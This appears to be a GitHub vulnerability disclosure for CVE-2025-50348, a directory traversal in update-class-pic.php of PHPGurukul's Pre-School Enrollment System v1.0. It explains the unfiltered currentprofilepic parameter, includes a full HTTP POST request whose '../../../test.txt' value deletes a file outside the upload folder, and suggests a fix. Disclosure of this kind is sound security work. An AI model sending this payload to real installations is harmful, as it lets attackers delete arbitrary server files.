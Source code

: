 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-3(update-class-pic.php)-CVE-2025-50348

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-class-pic.php file    
   Lines 15 and 16 get the currentprofilepic parameter and concatenate it into oldprofilepic. currentprofilepic is not filtered.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/9.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/10.png)    
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-class-pic.php page, classes-manage-Edit Class-Update Class Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/4.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/5.png)

   Transformed into attack payload    

    
    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7 HTTP/1.1
    Host: localhost
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywWObpfrtssMBATrx
    Accept-Language: zh-CN,zh;q=0.9
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Origin: http://localhost
    sec-ch-ua-mobile: ?0
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br, zstd
    Content-Length: 5637583

    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../test.txt
    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="teacherpic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundarywWObpfrtssMBATrx--

   Create test.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/7.png)

   Send payload, test.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/8.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
